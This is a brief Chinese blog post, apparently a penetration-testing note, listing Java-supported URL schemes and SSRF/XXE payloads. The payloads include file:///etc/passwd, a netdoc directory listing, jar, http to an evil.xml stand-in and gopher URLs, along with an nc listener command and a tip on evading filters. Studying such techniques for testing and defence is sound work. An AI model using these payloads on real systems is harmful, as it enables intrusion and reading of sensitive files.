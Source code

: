 ```yaml
---
layout: post
title:  java自定义通信协议及利用
noToc: true
date:   2019-01-13 09:30:00 +0800
tags: 内网探测 渗透测试
cover: '../assets/xxe.png' 
---
```


java自定义通信协议及利用

JAVA默认提供了对file,ftp,gopher,http,https,jar,mailto,netdoc协议的支持 。

file(ssrf、xxe)：

```
file:///etc/passwd
```

netdoc(ssrf、xxe)：

知道文件名和文件路径，很简单我们只要知道文件路径然后利用我们的 netdoc 去列目录就能知道文件名了 

```
netdoc:///var/www/html/
```

ps:过滤了file、gopher可使用netdoc代替

jar(ssrf、xxe):

```
jar:http://localhost:9999/jar.zip!/1.php
```

http(ssrf、xxe):

```
http://url/file.ext
http://example.com/evil.xml
```

gopher(ssrf、xxe):

```
gopher://ip:port/xxx
```

监听：nc -vv -l -p  port
